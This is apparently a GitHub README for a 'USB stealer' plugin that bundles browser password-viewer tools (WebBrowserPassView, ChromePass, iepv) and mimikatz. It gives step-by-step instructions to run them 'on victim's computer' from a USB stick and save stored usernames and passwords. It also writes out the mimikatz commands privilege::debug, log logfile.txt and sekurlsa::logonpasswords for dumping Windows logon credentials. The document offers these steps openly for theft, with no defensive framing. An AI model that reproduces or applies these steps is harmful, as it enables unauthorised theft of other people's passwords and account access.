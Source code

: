 # WebBrowserPassView-plugin
![webbrowserpassview-icon](https://user-images.githubusercontent.com/43011806/46359326-b0865d80-c671-11e8-85b7-043be5353632.png)
![chromepass_37622](https://user-images.githubusercontent.com/43011806/46678213-cdc8a800-cbec-11e8-9e4a-2ca14d99a217.png)

> This plugin made for Green Force soft on your USB stealer.

> This plugin independed and can work without any library and codes!

> This is fastely way to hack passwords!

This is WebBrowserPassView:

![img_4617](https://user-images.githubusercontent.com/43011806/46586686-9f32bc00-ca8a-11e8-8288-399ca15d9aba.JPG)

This is ChromeBrowserPassView (this is WebBrowserPassView but only for Chrome browser):

![chromepass_37622](https://user-images.githubusercontent.com/43011806/46678213-cdc8a800-cbec-11e8-9e4a-2ca14d99a217.png)
![1456302849122047466](https://user-images.githubusercontent.com/43011806/46678216-cef9d500-cbec-11e8-8272-5e1775961c5b.jpg)

This is an iepv (this is WebBrowserPassView but only for Internet Explorer browser):

![iepv](https://user-images.githubusercontent.com/43011806/46815272-3d709b80-cd83-11e8-8252-74ed968b3bf3.gif)
![iepv_icon](https://user-images.githubusercontent.com/43011806/46815088-da7f0480-cd82-11e8-8aef-fb2c64d3b429.gif)

To start:

> Download files

> And put it on your Green Force USB.

(in this plugin is WebBrowserPassView programm)

How to activate this programm:

> open WebBrowserPassView on victim's computer from USB and tap the button in this programm "Save selected items".

> or open ChromeBrowserPassView on victim's computer from USB and tap the button in this programm "Save selected items".

> or open iepv on victim's computer from USB and tap the button in this programm "Save selected items".

And you will have passwords and usernames from other sites!

Mimikatz_trunk this is script for hacking computer passwords:

> Open mimikatz.exe

Run commands in mimikatz:

> mimikatz # privilege::debug

> mimikatz # log logfile.txt

> mimikatz # sekurlsa::logonpasswords

more:

> https://github.com/entynetproject/green-force-mimikatz

And you will have user passwords!

